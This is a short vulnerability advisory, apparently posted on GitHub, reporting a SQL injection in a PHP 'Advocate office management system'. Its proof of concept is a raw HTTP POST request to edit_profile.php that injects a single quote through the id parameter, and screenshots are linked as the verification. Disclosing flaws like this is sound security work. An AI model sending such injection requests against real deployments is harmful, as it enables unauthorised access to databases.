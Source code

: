 1.Advocate office management system SQL Injection

2.Description

The system Client doesn't properly sanitise POST parameter, which result into a SQL Injection.


3.Vendor 

Homepage https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html


4.Author 

will@webray.com.cn inc


5.Proof of Concept
(1)Request package details


POST /kortex_lite/kortex_lite/control/edit_profile.php?id=' HTTP/1.1

Host: 192.168.67.19

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=---------------------------138672589812532910882517597860

Content-Length: 697

Cookie: PHPSESSID=m2d2dle30rvjnncs2tdtn9c37e

Upgrade-Insecure-Requests: 1


-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="id"


1

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="name"


Mayuri K

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="username"


mayuri.infospace@gmail.com

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="image"; filename="2.png"

Content-Type: image/png


123

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="edit"




-----------------------------138672589812532910882517597860--


(2)Verification results
![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/Advocate-office-management-system2.png)

![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/Advocate-office-management-system.png)

![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/Advocate-office-management-system3.png)
